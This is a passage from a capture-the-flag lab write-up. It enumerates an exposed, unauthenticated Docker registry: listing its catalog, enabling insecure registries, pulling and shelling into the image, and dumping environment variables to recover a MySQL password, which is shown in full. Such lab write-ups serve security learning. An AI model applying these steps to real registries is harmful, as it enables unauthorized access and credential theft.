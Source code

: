 We do not have credentials for the services: SSH, MYSQL and Web app login.
Running gobuster and nikto in the web app on port 8080 we do not find nothing.

## Exposed Docker Registry

Lets see what we can do with UPNP service on port 5000 detected by nmap.
By running nikto we found the following: `Uncommon header 'docker-distribution-api-version' found, with contents: registry/2.0`
It seems like a docker registry is running here. Running the command `http://10.10.247.66:5000/v2/_catalog` to list the docker images present in the registry we get one: `umbrella/timetracking`

There are two ways of getting information from the image:

- Method 1: Pull the image from the registry and run it in our local docker.
- Method 2: Extract the tags from the docker image and the following manifest and blobs.

### Method 1 - Pull and Run

To use the image we need to pull it from the registry first, however since the registry is using http, we need to add a configuration to our docker to pull from insecure registries:

- Add the following to /etc/docker/daemon.json:

```
{
   "insecure-registries": [
      "umbrella.thm:5000"
    ]
}

```

- Then restart docker:

```
sudo systemctl daemon-reload
sudo systemctl restart docker
```

- See if it made changes: `docker info`

![](docker_insecure.png)

- Pull the image using the command: `docker pull 10.10.247.66:5000/umbrella/timetracking`
- Run image and get a shell inside `docker run -it --entrypoint sh  10.10.247.66:5000/umbrella/timetracking`

**Note:**

- We can analyze the different layers using a tool call [dive](https://github.com/wagoodman/dive): `dive 10.10.247.66:5000/umbrella/timetracking`

We notice a app.js. By extracting the source code, we know that we are dealing with the service running on port 8080.
Using printenv we get the environment variables and mysql credentials:

```
# printenv
NODE_VERSION=19.3.0
HOSTNAME=1a927e523fdc
YARN_VERSION=1.22.19
HOME=/root
OLDPWD=/usr/src/app
DB_DATABASE=timetracking
TERM=xterm
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
DB_PASS=Ng1-f3!Pe7-e5?Nf3xe5
LOG_FILE=/logs/tt.log
PWD=/usr/src/app/views
DB_HOST=db
```
